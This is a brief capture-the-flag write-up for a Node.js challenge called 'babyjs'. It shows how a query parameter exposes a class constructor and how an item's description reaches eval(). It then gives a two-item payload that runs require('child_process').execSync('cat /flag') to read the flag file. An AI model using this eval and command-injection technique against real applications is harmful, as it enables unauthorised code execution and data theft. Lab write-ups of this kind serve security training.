




# babyjs

#### 1. You can find "bag[names[i]]" in the diff file ("GET /items/bag?names[]=")
 

#### 2. If you send the query "GET /items/bag?names[]=constructor", you can get the source code of class Bag
    * bag[constructor] ==> bag.constructor
 
 
<br> 
#### 3. If you add an item(Name:"@neRing"), you can run its description with "eval()". 
The length of the description is 30 or less, so you need to use another variable.
<br>
#### 4. Add below items.

```node
- First item
    * name: a
    * value: require('child_process').execSync('cat /flag')
- Second item
    * name: @neRing
    * value: this.a=eval(this.a)
```

    
#### 5. Get the flag.

